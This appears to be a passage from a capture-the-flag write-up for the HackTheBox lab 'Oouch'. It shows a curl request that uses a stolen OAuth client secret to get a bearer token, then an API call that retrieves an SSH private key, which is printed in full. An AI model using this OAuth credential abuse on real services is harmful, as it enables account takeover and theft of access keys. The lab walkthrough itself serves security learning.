 We are nearly at user dont worry just a few more steps to go.

Our main goal at this stage is to try and get access to the api that was mentioned earlier in the docs.

We are going to make a `POST` request to `http://authorization.oouch.htb:8000/oauth/token/` using our `client_id`.

```bash
curl -X POST 'http://authorization.oouch.htb:8000/oauth/token/' -H "Content-Type: application/x-www-form-urlencoded" --data "grant_type=client_credentials&client_id=7ZLCaJIn9NzEQ081RCpkk6rLwc7aJmYZGDmfvhsn&client_secret=xSxBgeE6uzDfT2cx4vnHDIygiLlwyI65aMYC6pzR77HaNSi7GhhLZmoRsKZJQ3vHOcRI7VeO2wVnWd56AhucNeBL1KgOLGdbRKy5B5dgxvWIbFWrUjAJS3oDYJ3EGqdn" -L -s
```

This should give us the response:

```bash
{"access_token": "xxxxxxxxxxxxxxxx", "expires_in": 600, "token_type": "Bearer", "scope": "read write"}#
```

We will use this access token to get our ssh keys.

We make one final request to our browser with the url `http://authorization.oouch.htb:8000/api/get_ssh/?access_token=LpLKz5mxCzy8mxCLPnbzhtseeXyeEK`

And we get the ssh key!

We modify it to make it the correct format and this is our final result:

```text
-----BEGIN OPENSSH PRIVATE KEY-----
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
```